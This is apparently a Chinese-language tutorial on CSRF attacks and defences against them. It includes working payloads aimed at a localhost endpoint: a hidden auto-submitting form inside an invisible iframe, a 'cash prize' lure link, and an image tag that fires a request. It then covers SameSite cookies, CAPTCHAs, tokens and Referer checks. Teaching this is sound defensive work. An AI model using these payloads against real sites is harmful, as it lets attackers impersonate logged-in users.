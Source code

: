 ## 原理

> 在用户登陆目标网站后，后端会返回用户登陆的凭证到前端（浏览器的 cookie）。攻击者诱使用户点击某个超链接，该超链接会发送恶意请求（会携带用户的 cookie），从而冒充用户完成业务请求（发帖、盗取用户资金等）。

## 攻击方式
- 提交 form 表单
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>测试</title>
</head>
<body>
<script type="text/javascript">
        document.write(`
                <form id="myForm" name="myForm" target="csrf"
                        method="post" action="http://localhost:8080/article/save">
                    <input type="hidden" name="userName" value="李四" />
                    <textarea name="content">表单攻击</textarea>
                </form>
            `);
        var iframe = document.createElement("iframe");
        iframe.name = "csrf";
        iframe.style.display = "none";
        document.body.appendChild(iframe);
        setTimeout(function() {
            document.getElementById("myForm").submit();
        },1000);
</script>
</body>
</html>
```
> 实际案例中，攻击者会先了解目标网站请求的 url，通过诱惑登陆用户点击某个超链接，该链接指向类似上文的 html 页面（第三方网站）。因为是用户在自己浏览器点击的超链接，因此会自动携带用户浏览器中的 cookie，这样在第三方网站就可以冒充用户发起请求。
- 点击超链接
```
<a href="http://localhost:8080/article/save?userName=李四&content=超链接攻击">点击获取现金大奖</a>
```
- 加载图片方式
```
<img src="http://localhost:8080/article/save?userName=李四&content=图片攻击" />
```
## 防御
CSRF 攻击的一个特点是绕过目标网站的前端页面（无法获知页面的信息，如：验证码，token），在第三方网站发送请求到目标网站后端。

4.1 禁止第三方网站携带 cookie

在网站后端，用户登陆功能的代码中，设置 cookie 的 SameSite 的值为 Strict 返回给浏览器。

缺点：目前只有 chrome 和 opera 支持该属性。

4.2 使用验证码

以论坛发帖为例，在发帖时，设置一个验证码，发帖后在后端进行校验。CSRF 攻击没法获取到验证码，从而目标网站得到了防御。

4.3 使用 token

继续以论坛发帖为例，在论坛后端跳转发帖页面的代码中随机生成一个 N 位数的数字/字符串作为 token，设置到 cookie 和任意变量名的变量中（最终放入到前端的 form 表单中）。当用户在页面发帖后，后端接收和校验 cookie 中的 token 和 页面提交的 token 是否一致。如果一致，则说明是用户合法操作。

4.4 判断 referer

referer 是 http 的请求头，用户发送请求后，在后端获取该请求头，判断它的值是否包含目标网站的域名。如果包含说明操作合法。